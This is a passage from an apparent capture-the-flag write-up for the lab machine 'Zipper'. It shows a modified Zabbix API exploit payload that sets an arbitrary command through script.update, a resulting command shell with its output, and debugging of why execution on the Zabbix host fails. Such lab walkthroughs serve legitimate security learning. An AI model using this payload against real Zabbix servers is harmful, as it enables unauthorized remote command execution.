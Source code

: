 

    ### update
            payload = {
                    "jsonrpc": "2.0",
                    "method": "script.update",
                    "params": {
                        "scriptid": "1",
                        "command": ""+cmd+"",
                        "execute_on": "0"
                    },
                    "auth" : auth['result'],
                    "id" : 0,
            }



Now I can run with a shell on Zipper:



    root@kali# python 39937.py 
    [zabbix_cmd]>>:  id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    [zabbix_cmd]>>:  hostname
    zipper



### Still Run on Zabbix

The next logical step would be to change the host id to 10105 and run
commands on Zabbix. That should work, but it doesn't:



    root@kali# python 39937.py 
    [zabbix_cmd]>>:  hostname
    Traceback (most recent call last):
      File "39937.py", line 76, in <module>
        print cmd_exe["result"]["value"]
    KeyError: 'result'



Why? I'll switch `execute_on` back to "1" and check out Zabbix again.

When I tell Zabbix to execute on the Zabbix agent, it contacts the agent
listening on port 10050 with the command. But it looks like the Zabbix
host doesn't have anything listening on 10050:



    [zabbix_cmd]>>:  netstat -plnt
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::10051                :::*                    LISTEN      -
